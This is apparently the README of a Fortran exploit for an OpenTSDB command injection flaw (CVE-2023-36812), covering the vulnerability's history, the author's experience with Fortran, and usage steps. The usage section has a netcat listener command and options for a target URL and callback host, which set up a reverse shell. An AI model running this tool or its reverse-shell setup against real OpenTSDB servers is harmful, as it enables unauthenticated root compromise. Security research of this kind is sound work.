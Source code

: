 # opentsdb_key_cmd_injection
An exploit for OpenTSDB <= 2.4.1 cmd injection (CVE-2023-36812/CVE-2023-25826) written in Fortran
# About
This is an exploit for a command injection vulnerability in OpenTSDB verions 2.4.1 and prior (CVE-2023-36812/CVE-2023-25826). The exploit is written in modern Fortran and leverages the official Fortran [http-client library](https://github.com/fortran-lang/http-client) that was created earlier this year.

# Vulnerability details
OpenTSDB is an open-source time series database written in Java. In 2020, a command injection vulnerability was discovered in versions 2.4.0 and prior that could be exploited in order to gain remote code execution on the host with root privileges. Since OpenTSDB does not support authentication, this vulnerability, tracked as CVE-2020-35476, could be exploited by anyone with access to the OpenTSDB web interface. A patch was released as part of version 2.4.1

This year it was discovered that the patch for CVE-2020-35476 was incomplete, and command injection is still possible in OpenTSDB 2.4.1 via several vectors. The OpenTSDB maintainers have released a [security advisory](https://github.com/OpenTSDB/opentsdb/security/advisories/GHSA-76f7-9v52-v2fw) for this issue, which is tracked as CVE-2023-36812 and credited to Gal Goldstein and Daniel Abeles of Oxeye. It is worth nothing that CVE-2023-25826 actually seems to describe the same vulnerability, and both CVEs link to the exact same patch. Said patch will be introduced in 2.4.2, which is not an official release yet. At the time of writing, the most recent OpenTSDB [release](https://github.com/OpenTSDB/opentsdb/releases) on GitHub remains 2.4.1, and the [OpenTSDB website](http://opentsdb.net/) also mentions 2.4.1 as the current version. It's therefore likely that most OpenTSDB instances in production are still running a vulnerable version. That being said, the OpenTSDB [FAQ]http://opentsdb.net/faq.html emphasizes that this project "was written for internal use only", and "hasn't been through any security review and does not included authentication."

# Why Fortran?
The short version is that I saw this convo:

The idea of writing an exploit in [the programming language used to put people on the moon](https://www.linux.com/news/how-they-built-it-software-apollo-11/) intruiged me so much that I had to explore it myself. This exploit is the result of that experiment. To the question whether it was successful, I can respond only with these wise, yet cursed words that bind all devs in blood: It works on my machine. ¯\\_(ツ)_/¯

In any case, my key takeaways from this project are:
- Fortran is actually pretty cool, and suprisingly easy to learn.
- The modern Fortran ecosystem, including the [fpm](https://github.com/fortran-lang/fpm) package manager, shows great promise.
- Fortran is a strongly typed language, and I found that to be a good thing, because I encountered few nasty run-time errors.
- Fortran projects with dependencies are large because fpm includes the dependency source code directly into your project. The benefit is that it avoids system pollution.
- Library support is relatively limited and chaotic compared to modern languages. Unfortunately this does not just affect the http-client library.
- Unsurprisingly, good documentation and troubleshooting tips are harder to come by than for most modern programming languages, though there are still quite a few useful posts on StackOverflow and long-forgotten forums from the early 2000s.
- AI tools like ChatGPT and GithHub Copilot make for even less reliable coding buddies than is the case for modern languages.

All in all, it is not easy to imagine this language really gaining significance within offensive security, if only because there are so many solid, modern alternatives out there for any imaginable use case (Python, Go, Rust, Ruby, C# to name just a few). But if you like experimenting with different programming languages and don't mind encapsulating your strings in `trim()` calls all the time (PLEASE TAKE NOTE OF THIS IT WILL SAVE YOU SO MUCH SUFFERING), Fortran is absolutely worth checking out. I'm unironically rooting for this language now and I might revisit it if they continue to add support to the http-client library, especially if they add an http-server library at some point.

TL;DR: Fortran http-client lib goes brr.

# Usage
- Start a listener on your system, eg:
```
nc -nlvp 1337
```
- In a separate window, nagivate to the `opentsdb_key_cmd_injection` directory
```
# cd /path/to/opentsdb_key_cmd_injection/
```
- Run the project via `fpm` (make sure to install it first. See the installation instructions in the next section)
```
# /path/to/fpm run -- -t <target_url> -l <lhost> -p <lport> [-v]
```
Options:
- `-t` - TARGET URL: the base URL to OpenTSDB (required)
- `-l` - LHOST: the IP of the system where you are running a listener (required)
- `-p` - LPORT: the listener port (required)
- `-v` - VERBOSE: enable verbose printing (optional)

# Installation
- Install `gfortran`. On debian-based systems this can be done via:
```
apt install gfortran
```
- Install fpm. The easiest way to do this is to download a binary for the latest stable release from the fpm [releases](https://github.com/fortran-lang/fpm/releases/latest) on GitHub and then make it executable:
```
chmod +x /<path>/to/fpm
```
Make sure you have `git` installed on your system before installing `fpm`.

# Poc || GTFO
https://github.com/ErikWynter/opentsdb_key_cmd_injection/assets/55885619/81375ad1-796a-4e52-931e-b5b9c6148a33

# A brief history of Fortran
Fortran is mostly known as an archaic language that played an important role in the history of modern computing, but can no longer be considered relevant today. It was first released in 1957, predating both the ARPANET and Unix by more than a decade. Based on [this time-series data video](https://www.youtube.com/watch?v=qQXXI5QFUfw) it was the dominant programming language throughout the 1960s and 1970s, and remained among the 10 most popular languages until the late 1990s. But by the time Windows 98 was released, it had clearly fallen out of fashion, in favor of more modern languagues like C, C++, Java and JavaScript, all of which are still widely used today.

Apart from the brave souls who manage legacy systems, I doubt that many people in IT (let alone outside of our bubble), have come across Fortran in the last two decades, or are even aware that it's still around. Despite that, Fortran remains under active development. As stated on the [offical Fortran website](https://fortran-lang.org/), the language was last revised in 2018, and we will hopefully see another revision this year (2023). In fact, it seems the Fortran community has been very active in the last few years, pushing out several major projects to help modernize the ecosystem, including:
- [stdlib](https://github.com/fortran-lang/): the first-ever Fortran standard library (first release: 2021)
- [fpm](https://github.com/fortran-lang/fpm): a modern package manager and build system called fpm (first alpha release: 2020)
- [http-client](https://github.com/fortran-lang/http-client): the previously referenced HTTP client library (first release: 2023).

Given this, it appears the maintainers are aiming for somewhat of a Fortran comeback, or at the very least to give the language a fighting chance to survive for a few more decades. While even the most fanatic Fortran stan probably doesn't expect to see the language crack the top 10 of most popular programming languages ever again, the ongoing modernization of the language and its ecosystem has likely made Fortran more relevant than it has been in the last decade or two.
